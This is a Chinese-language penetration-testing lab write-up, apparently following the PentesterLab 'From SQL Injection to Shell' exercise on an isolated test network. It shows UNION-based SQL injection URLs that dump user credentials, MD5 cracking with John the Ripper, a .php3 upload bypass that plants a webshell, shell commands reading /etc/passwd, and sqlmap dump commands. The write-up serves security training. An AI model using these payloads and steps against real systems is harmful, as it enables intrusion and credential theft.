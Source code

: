 ## 从SQL注入到Shell
-------

### 一.实验环境
攻击者： kali系统&nbsp;attack&nbsp;网络&nbsp;NatNetwork &nbsp;10.0.2.9<br>
![](https://i.imgur.com/euES08k.png)<br>
受害者： Debian&nbsp;sql_victim&nbsp;网络&nbsp;NatNetwork&nbsp;10.0.2.8<br>
![](https://i.imgur.com/Lm1HbRY.png)<br>
两者网络互通<br>
![](https://i.imgur.com/AgQsbzt.png)<br>

### 二.实验步骤
- 攻击机扫描受害者端口，确认22与80端口开放<br>
![](https://i.imgur.com/qOEejJT.png)
- 通过使用telnet连接到受害者的80端口，可以检索到大量信息
```
telnet 10.0.2.8 80
```
发送HTTP信息：
```
GET / HTTP/1.1
Host: 10.0.2.8
```
![](https://i.imgur.com/SfHZkoT.png)
- 通过使用软件Burp Suite设置为代理，也可以得到相同的信息
	- 将Burp Suite默认代理拦截关闭
![](https://i.imgur.com/crD9jTG.png)
	- 攻击机浏览器访问受害者的80端口 
![](https://i.imgur.com/AvASBhZ.png)
	- 查看burp suite拦截到的信息
![](https://i.imgur.com/mgn0I2p.png)
- 使用wfuzz暴力检测web服务器上的目录和页面
对于本次实验来说，wfuzz爆破是一个可选步骤。wfuzz 的典型应用场景是：所有可见的链接都已经测试过了，还希望更进一步找找有没有「隐藏」的链接、孤立页面，这个时候 wfuzz 类的 URI 爆破工具就可以派上用场了
![](https://i.imgur.com/EL83coM.png)
	- 运行以下命令来检测远程文件和目录
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt  --hc 404 http：//10.0.2.8/FUZZ
```
![](https://i.imgur.com/U3t8zUl.png)
	- 还可用于检测服务器上的PHP脚本
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt  --hc 404 http：//10.0.2.8/FUZZ.php
```
![](https://i.imgur.com/zsujKzR.png)

- SQL注入
	-查看网页源码，发现有3个id值，可以返回三张图片 
![](https://i.imgur.com/SU66Cj6.png)
![](https://i.imgur.com/cSJtC45.png)
当id为3时，应该返回内容，但可能因为该图片已经不存在因此返回空白
![](https://i.imgur.com/R9Ht2mw.png)
	- 当在地址栏输入的id不在1-3范围内时，不返回任何内容
![](https://i.imgur.com/1QUlacj.png)
	- 当在地址栏输入and的两边有一边为真，则返回真条件部分的内容
![](https://i.imgur.com/Dg2P8Z7.png)
	- 当在地址栏输入or的两边有一边为真，则返回全部图片
![](https://i.imgur.com/gFXCl0M.png)
![](https://i.imgur.com/wK0uqan.png)
	- 当在地址栏输入and的两边都为假，则不返回任何内容
![](https://i.imgur.com/GNa9jgg.png)

可见该结果满足理论上and和or的判断条件

	- 服务器接受减法运算，加法符号会报错，同时会暴露后台数据库是MYSQL
![](https://i.imgur.com/6acUWST.png)
	- 服务器接受求余运算1%2=1,2%1=0，按照运算结果返回内容
![](https://i.imgur.com/Cv03YMm.png)
	- 服务器接受乘法运算，除法符号会报错
![](https://i.imgur.com/J66fxEQ.png)
	- 括号与单双引号必须成对出现，如果出现奇数个括号或引号则会报错，同时会暴露后台数据库是MYSQL，可以用 -- 注释掉之后的内容
![](https://i.imgur.com/AXPpLzT.png)
![](https://i.imgur.com/ZxYQnLC.png)
	- 被引号引起来的数字会被服务器正确解释并返回，但处理速度通常要慢于直接书写数字
![](https://i.imgur.com/KW5iCXT.png)
由结果可见，整数与字符都可能产生SQL注入
	- 利用order关键字来探测数据库中的列数，如果ORDER BY语句中的列号大于查询中的列数，则会引发错误；由1开始递增观察到当order 5时返回未知列数错误，确定列数为4
![](https://i.imgur.com/fBsaNso.png)
	- 利用UNION SELECT来确定列数，如果尝试执行UNION并且两个查询返回的列数不同，则注入返回错误；通过该过程猜测并确定列数为4
![](https://i.imgur.com/RIS1V9I.png)
	- 通过UNION SELECT返回的信息2我们知道，数据库用第二列来输出信息，因此我们通过替换第二列的值来探测数据库的相关信息
```
数据库版本：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,@@ version,3,4
当前用户：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,current_user(),3,4
当前数据库：http://10.0.2.8/cat.php?id=1％20UNION％20SELECT％201,database(),3,4
```
![](https://i.imgur.com/9XS75EC.png)
![](https://i.imgur.com/TwrknFB.png)
	- MySQL提供的表包含自MySQL版本5以来可用的数据库，表和列的元信息。我们将使用这些表来检索构建最终请求所需的信息。这些表存储在数据库information_schema中。
```
表格列表： http://10.0.2.8/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
列列表： http://10.0.2.8/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
```
![](https://i.imgur.com/Bv42T7Z.png)
	- 这些请求提供了所有表和列的原始列表，但是要查询数据库并检索有用的信息，需要知道哪个列属于哪个表。
```
使用关键字CONCAT：
在注入的同一部分中连接表名和列名:http://10.0.2.8/cat.php?id=1 UNION SELECT 1,concat('^^^',table_name,':',column_name,'^^^'),3,4 FROM information_schema.columns
```
	- 我们获悉想要的用户名和密码信息在user表中，于是用如下查询得到需要的信息
```
http://10.0.2.8/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
```
![](https://i.imgur.com/umEXIOj.png)

- 分析用户名和密码
	- 方法一：使用搜索引擎。当哈希是未加盐的时候，可以使用Google这样的搜索引擎轻松破解，可以由网页搜索结果得知该网站使用的是MD5加密算法，且直接可以得到解密后的密码明文
![](https://i.imgur.com/qW86k6X.png)
	- 方法二：John-The-Ripper可用于破解此密码，大多数现代Linux发行版都包含John的版本，为了破解此密码，您需要告诉John使用了哪种算法来加密它。对于Web应用程序，一个很好的猜测是MD5。
	1. 找到/usr/share/wordlists文件夹中的rockyou.txt.gz并提取其中的txt文件，作为john解密的参考字典
	2. 创建pwd.txt并将用户名和密码密文存入其中，作为john解密的文本;我们要为John提供正确格式的信息，将用户名和密码放在由冒号'：'分隔的同一行上<br>admin:8efe310f9ab3efeae8d410a8e0166eb2
	3. 在命令行输入如下指令，提取密码明文
```
john pwd.txt --format = raw-md5 --wordlist = rockyou.txt --rules
```
![](https://i.imgur.com/q5OgjdG.png)
![](https://i.imgur.com/VeCoJrL.png)

- 随后用获取到的用户名和密码明文登录管理员 
![](https://i.imgur.com/elsQ7Pj.png)

- 上传webshell和代码执行
我们可以看到有一个允许用户上传图片的文件上传功能，我们可以使用此功能尝试上传PHP脚本。一旦上传到服务器上，这个PHP脚本将为我们提供运行PHP代码和命令的方法。

	- 首先，我们需要创建一个PHP脚本来运行命令。保存为扩展名为.php的文件
![](https://i.imgur.com/n1Wbgl6.png)
	- 我们现在可以使用页面上提供的上传功能并尝试上传此脚本
![](https://i.imgur.com/2LmbF62.png)
	- 我们可以看到该脚本尚未在服务器上正确上载。应用程序阻止具有.php要上载扩展名的文件。
![](https://i.imgur.com/s42kX5J.png)
	- 但是我们可以尝试将后缀名改为php3来绕过这一过滤器，文件上传成功，.php3 能被当作 PHP 文件解释执行，是因为目标 Apache 服务器配置缺陷
![](https://i.imgur.com/5ecuvhk.png)
![](https://i.imgur.com/sMQQc0C.png)
	- 查看网页源码,并直接访问/show.php?id=4，并进一步访问admin/uploads/shell.php3
![](https://i.imgur.com/JvMdmqP.png)
![](https://i.imgur.com/UmUY35e.png)
![](https://i.imgur.com/QoDywIe.png)
	- 利用url执行cmd命令获取服务器信息
	1. 获取服务器内核信息
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=uname```
	![](https://i.imgur.com/LFhe5Uk.png)
	2. 获取系统用户完整列表
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=cat /etc/passwd```
	![](https://i.imgur.com/muNyDct.png)
	3.  获取当前内核的版本
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=uname -a```
	![](https://i.imgur.com/IpizLZM.png)
	4. 获取当前目录的内容
	```http://10.0.2.8/admin/uploads/shell.php3?cmd=ls``` 
	![](https://i.imgur.com/eHaZJGN.png)

- 使用SQLmap自动注入
	- 找到sql注入点及服务器信息
![](https://i.imgur.com/q8efbOz.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" --dbs```
![](https://i.imgur.com/A5OQdwd.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" --tables```
![](https://i.imgur.com/uBPxAeY.png)
![](https://i.imgur.com/ma1iU5o.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" -T users --columns```
![](https://i.imgur.com/zvoRa0U.png)
	- ```sqlmap -u "http://10.0.2.8/cat.php?id=1" -T users -C "login,password" --dump```
![](https://i.imgur.com/5e1TLvS.png)

## 参考
------

 [SQL注入常见攻击方式](https://blog.csdn.net/github_36032947/article/details/78442189)
 [Kali下使用SQLmap工具对网站进行渗透测试检测](https://www.exehack.net/4955.html)
 [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)